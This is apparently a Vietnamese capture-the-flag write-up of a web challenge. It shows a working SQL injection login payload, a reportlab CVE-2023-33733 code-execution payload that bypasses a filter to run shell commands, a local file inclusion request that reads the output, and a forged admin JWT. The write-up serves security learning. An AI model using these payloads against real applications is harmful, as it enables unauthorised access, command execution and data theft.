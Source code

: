 ```yaml
---
title: CyberSpace CTF 2024
description: CTF-Web
author: Pr0pylTh10ur4C1L
date: 2024-09-11 18:41:00 +0700
categories: [Capture The Flag]
tags: [Web Exploitation]
math: true
mermaid: true
---
```


> Tính ra ban đầu cứ tìm cách bypass cái filter do ham làm blackbox nên lâu vcl

## SQLi username

Ở đây thì khi login, ta thấy chương trình sẽ gọi tới hàm `getUser` trong database
```python
user, status = database.get_user(username, password)
```

Nhìn vào file `database.py`, ta thấy được cách hàm này hoạt động:

```python
def get_user(self, username, password):
    password_bytes = password.encode("utf-8")
    query = text(f"SELECT * FROM users WHERE username = '{username}'")
    print("Query:", query)
    user = self.session.execute(query).fetchone()
    if not user:
        return None, False
    if bcrypt.checkpw(password_bytes, user.password.encode("utf-8")):
        return user, True
    return None, False
```

Đoạn code trên bị lỗi SQL Injection ở chỗ `username` khi nó được truyền vào query mà không được escape. Để ý class user có dạng

```python
class Users(db):
    __tablename__ = "users"
    id = Column(Integer, primary_key=True, autoincrement=True)
    username = Column(String)
    password = Column(String)
    is_admin = Column(Boolean, default=True)
```

Như vậy để có thể login với user có quyền admin ta tạo tài khoản với user bất kỳ. Ở đây là `trungpq`, sau đó ta sẽ login với `username` như sau:

```
' union select id, username, password, 1 from users where username%3d'trungpq
```

Như vậy câu query sẽ trở thành
```
SELECT * FROM users WHERE username = '' union select id, username, password, 1 from users where username='trungpq'
```

Nó sẽ trả về user `trungpq` nhưng mà có quyền admin

## CVE-2023-33733
Do có chức năng liên quan tới chuyển file txt thành pdf trong file `app.py` (/convert, /view_pdf), mình đã cố tìm cách để có thể khai thác bằng cách tìm điểm yếu trong code nhưng hardcore vcl.

Sau cùng thì như HTB Machine Easy, có thể là nó sẽ có CVE nào đó, nên mình đã search google "python pdf cve" và ra ngay một con hàng trên đầu
```
https://github.com/c53elyas/CVE-2023-33733
```

Đây là CVE của reportlab (được sử dụng trong `convert_pdf.py`) có thể inject code vào pdf. Tuy nhiên thì mình thử kiểu gì cũng éo được. Sau cùng thì tư duy `mineme2` lại khiến mình thử diff lib reportlab của bài này với bản gốc xem có gì hay ho (cụ thể là bản 3.6.12)

Ở file `rl_safe_eval.py` đã filter hết các từ sau:
```python
__rl_unsafe__ = frozenset('''all any breakpoint builtins co_argcount co_cellvars co_code co_consts co_filename co_firstlineno 
							co_flags co_freevars co_kwonlyargcount co_lnotab co_name co_names co_nlocals co_posonlyargcount 
							co_stacksize co_varnames cr_await cr_code cr_frame cr_origin cr_running ctype enumerate filter frozenset 
							func_code func_defaults func_doc func_globals func_name f_back f_builtins f_code f_exc_traceback f_exc_type 
							f_exc_value f_globals f_lasti f_lineno f_locals f_restricted f_trace gi_code gi_frame gi_running gi_yieldfrom 
							globals hasattr im_class im_func im_self iter list locals map max min next pow range reversed set sorted 
							sum system tb_frame tb_lasti tb_lineno tb_next vars __annotations__ __code__ __defaults__ __func__ __globals__ 
							__iter__ __kwdefaults__ __module__ __name__ __qualname__ __self__'''.split()
```
Challenge đã filter `pow` và `system` nên ta sẽ đổi thành `popen` và `type` để bypass filter

Final payload:
```
<para> <font color="[ [ getattr(type,Word('__globals__'))['os'].popen('cat /flag*.txt > /tmp/hehe.pdf').read() for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">                exploit                </font>            </para>
```

## LFI 

```python
@app.route("/view_pdf", methods=["GET"])
def view_pdf():
    token = request.cookies.get("token")
    if not token:
        return redirect(url_for("login"))
    
    try:
        jwt_payload = jwt.decode(token, JWT_KEY, algorithms=[JWT_ALG])
    except jwt.ExpiredSignatureError:
        return redirect(url_for("login"))
    except jwt.InvalidTokenError:
        return redirect(url_for("login"))
    
    if not jwt_payload.get("login"):
        return redirect(url_for("login"))
    
    if jwt_payload.get('login') and is_admin(jwt_payload):
        pdf_filename = request.args.get('f')
        if not pdf_filename:
            return render_template("error.html", title="Error", error="No file provided", redirect_url="/convert"), 400
        return send_file(os.path.join(UPLOAD_FOLDER, pdf_filename), as_attachment=False)
```

Đoạn code này bị LFI nên có thể đọc file bất kỳ, vậy exccute đưa flag ra `/tmp/hehe.pdf` và đọc file flag là xong

```
GET /view_pdf?f=/tmp/hehe.pdf HTTP/2
Host: hells.ehc-fptu.club
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJsb2dpbiI6dHJ1ZSwidXNlcm5hbWUiOiJ0cnVuZ3BxIiwiaXNfYWRtaW4iOjF9.xhq-NmIQhPKFkV2Ua19nfn9esgEYIo2LvAac6g5kmvs
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: embed
Referer: https://hells.ehc-fptu.club/convert
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

HTTP/2 200 OK
Date: Wed, 11 Sep 2024 12:03:09 GMT
Content-Type: application/pdf
Content-Length: 59
Content-Disposition: inline; filename=hehe.pdf
Last-Modified: Wed, 11 Sep 2024 12:00:33 GMT
Cache-Control: no-cache
Etag: "1726056033.212105-59-540542130"
Vary: Cookie, Accept-Encoding
Set-Cookie: session=; Expires=Thu, 01 Jan 1970 00:00:00 GMT; Max-Age=0; Secure; HttpOnly; Path=/; SameSite=Lax
Cf-Cache-Status: BYPASS
Accept-Ranges: bytes
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v4?s=06L56Ghj9h69RbqcnkwHAsBPtIRla6BNeK7q2EU0nb6g1LF4XlRDZDQiWoZRcZYeB5%2BSArn%2BIHBIJDdDwRcXbY6FYLYVRSc5SqcdirAK2zE0%2B3M%2FZMya6IB1JNHiMRIBgxYVk4hQ"}],"group":"cf-nel","max_age":604800}
Nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
Strict-Transport-Security: max-age=2592000
X-Content-Type-Options: nosniff
Server: cloudflare
Cf-Ray: 8c1783528c409ca7-SIN
Alt-Svc: h3=":443"; ma=86400

EHC{3asy_brute_f0rce_jwt_4nd_expl0it_ed1ted_CVE-2023-33733}
```

> Đã rm -rf /tmp/hehe.pdf :v

## Intended way
Để ý thì ở trong file `script.js` và `style.css`, ta sẽ thấy hai đoạn comment sau:
```
// Are you finding something in here? This is a part that you need to find: UGFzc3dvcmQ6IFlLbUVncTlzV1g=
/* Are you finding something about Hell's EHC in here? This is a part that you need to find: Tm90ZTogaHR0cHM6Ly9wYXN0ZWJpbi5jb20va3RrdVVGYU0= */
```

Decode Base64, đây là thứ chúng ta thu được
```
Password: YKmEgq9sWX
Note: https://pastebin.com/ktkuUFaM
```

Truy cập vào link pastebin và điền pass, ta thu được `key`, `iv` và `input` của hàm AES, thứ mà theo mô tả thì output sẽ là JWT key
```
Key: 969bbc9a91330066499ebe6e309cba1b
IV: 57114c46cb8aefd48fe18734ed3c9125
Input: gotohell
Output: <Admin key>
<Do you know AES? Hey, Remember this is default encrypt?>
```

Sử dụng AES_CBC, ta sẽ thu được key JWT là `640ac4e02546bdee1a7fc487b970d3ff`.

Đến đây thì không có gì khó, như đã phân tích ở phần SQLi thì ta chỉ cần is_admin = 1 là được. Chỉ cần sửa JWT thoi. Cụ thể thì JWT của mình là (sử dụng jwt.io)

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJsb2dpbiI6dHJ1ZSwidXNlcm5hbWUiOiJ0cnVuZ3BxIiwiaXNfYWRtaW4iOjF9.xhq-NmIQhPKFkV2Ua19nfn9esgEYIo2LvAac6g5kmvs
```

Cho vào cookie và ta sẽ có quyền admin.